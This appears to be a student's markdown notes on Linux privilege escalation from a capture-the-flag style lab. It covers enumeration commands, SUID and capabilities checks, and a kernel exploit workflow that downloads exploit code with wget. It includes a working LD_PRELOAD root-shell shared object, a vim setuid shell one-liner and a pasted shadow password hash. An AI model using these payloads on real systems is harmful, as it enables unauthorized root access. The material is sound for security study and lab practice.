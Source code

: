 # Privilege Escalation - going from a lower permission account to a higher permission one
-exploitation of a vulnerability, design flaw or configuration oversight in an OS or APP to gain unathorized access to resources that are usually restricted from the users
### -Privilege Escalation allows:
1. Resetting passwords
2. Bypass access controls to compromise protected data
3. Editing software configurations
4. Enabling persistence
5. Changing the privilege of existing users
6. Execute any admin command

## Linux Commands

### **Enumeration** - first step taken after gaining access, important step post-compromise phase-

- **hostname** - command returns hostname of the target machine
- **uname -a** - print system information detail about kernel, useful for potential kernel vulns
- **/proc/version** - info about the target system processes
- **/etc/issue** - file contains info about the OS, can be eaily customized or changed
- **ps** - see running processes on linux system
-1. PID: Process ID
-2. TTY: Terminal type used by user
-3. Time: Amount of CPU time used by process
-4. CMD: command or executable running
- **ps -a** - view all running processes
- **ps axjf** - view process tree
- **ps aux** - will show processes for all users
-a: all users
-u: display the user that launced the process
-x: show processes that are not attached to a terminal

'env': show environmental variables
'sudo -l: list all commands the user can run using 'sudo'
'ls': list files in current directory
'ls -la': list all files including hidden files in current directory
'id <user>': provide a general overview of the user's privilege level
'cat /etc/passwd': discover users on the system
'cat /etc/passwd | cut -d ":" -f 1": easily list all users and ignore other parts
'history': look at earlier commands 
'ifconfig': information about the network interfaces (eth0, tun0, and tun1)
'ip route': see network route

'netstat': gather information on existing connections
'netstat -a': shows all listening ports and established connections
'netstat -at': list TCP protocols
'netstat -au': list UDP protocols
'netstat -l': list ports in 'listening' mode. Ports are open and ready to accept incoming connection
'netstat -lt': list ports in 'listening' mode using TCP protocol
'netstat -s': list network usage statistics by protocol (-t: TCP, -u: UDP)
'netstat -tp': list connections with service name and PID (-l: listening ports)
'netstat -i': shows interface stats
'netstat -ano': -a = display all sockets, -n: do not resolve names, -o: display timers

find command - searching the target system for important information and potential privilege escalation vectors 
'find . -name <filename>.txt' find the file named <filename> in the current directory
'find /home -name <filename>.txt': find file named <filename> in the /home directory
'find / -type d -name config': find the directory named config under "/"
'find / -type f -perm 0777': find files with the 777 permissions(files readable, writable and executable by all users)
'find / -perm a=x':find executable files
'find /home -user frank': find all files for user "frank" under "/home"
'find / -mtime 10': find files modified in the last 10 days
'find / -atime 10': find files accessed in the last 10 days
'find / -cmin -60': find files changed in the last hour 
'find / -amin -60': find files accessed in the last hour
'find / -size 50M': find files with a 50 MB size

folders and files that can be written to or executed from:
1. 'find / -writable -type d 2>/dev/null'
2. 'find / -perm -222 -type d 2>/dev/null'
3. 'find / -perm -o w -type d 2>/dev/null'
'find / -perm -o x -type d 2>/dev/null': find world executable folders
find development tools and supported languages:
'find / -name perl*'
'find / -name python*'
'find / -name gcc*'
'find / -perm -u=s -type f 2>/dev/null': find files with SUID bit, which allows us to run the file with a higher privilege than the current user

Automated Enumeration Tools - linux enumeration tools with Github Repositories
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

Kernel Exploits
-privEsc ideally leads to root privileges
-achieved by exploting an existing vuln or accessing another user account that has higher privileges
-rely on misconfigurations and lax permissions
-methodology:
1. Id the Kernel version
2. search and find an exploit code (https://www.linuxkernelcves.com/cves)
3. Run the exploit

Linux Kernel 3.13.0-24-generic x86 64
CVE-2015-1328: Allows local users to obtain root access by leveraging a configuration in which 'overlayfs' is permitted in an arbitrary mount namespace. 
Exploit: https://www.exploit-db.com/exploits/37292
1. Need to copy exploit file to the target machine
	a. start a python server to serve the file
	python3 -m http.server 8888
	b. on target machine copy the file in the /tmp folder
	wget http://1.2.3.4/8888/exploit.c
2. compile the exploit
gcc exploit.c -o pwned
3. search for flag
find . -name flag1.txt
4. cat flag1.txt

Sudo
-check root privileges using 'sudo -l'
-Leverage application functions: some application allow the loading of alternative configuration files
eg: Apache2 ('-f': specify an alternate ServerConfigFile)
-Leverage LD_PRELOAD: allows any program to use shared libraries
-if "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run
-LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID
-Methodology:
1. Check for LD_PRELOAD(with the env_keep option enabled)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and LD_PRELOAD option pointing to our .so file
The C code will simply spawn a root shell and can be written as follows; shell.c

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}

gcc -fPIC -shared -o shell.so shell.c -nostartfiles
-use this shared object file when launching any program the user can run with sudo
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find

$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::

SUID
-Linux privilege controls rely on controlling users and file interacions
-achieved using permissions
-SUID(set-user identification)
-SGID(set-group identification)
-'s'bit - special permission level
'find / -type f -perm -04000 -ls 2>/dev/null': list files with SUID or SGID bit set

Capabilities
'getcap' tool  to list enabled capabilities
-capabilites help manage privileges at a more granular level
'getcap -r /' generates a lot of erros so it is good practice to redirect error messages to /dev/null
'getcap -r / 2>/dev/null'
vim:
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'

Cron Jobs
-used to run scripts or binaries at specific times
-run with privilege of the owner and not current user
-task that runs on root privileges, change script that will be run to new script with root privileges
-stored as crontabs
-any user can read the file keeping system-wide cron jobs under '/etc/crontab'
backup.sh - configured to run every minute

PATH
-if a folder for the user has a write permission located in the path, an applicaition in the path could be hijacked to run a script and increase privileges
echo $PATH

NFS
-Network file sharing: configuration is kept in '/etc/exports' file. 
-the file is created during the NFS server installation and can usually be read by users
-critical element: "no_root_squash" - default NFS will change the root user to nfsnobody and strip any file from operating with root privileges
- 'no_root_squash' is present on a writable share, it is possible to create an executable with SUID bit set and run it on the target system



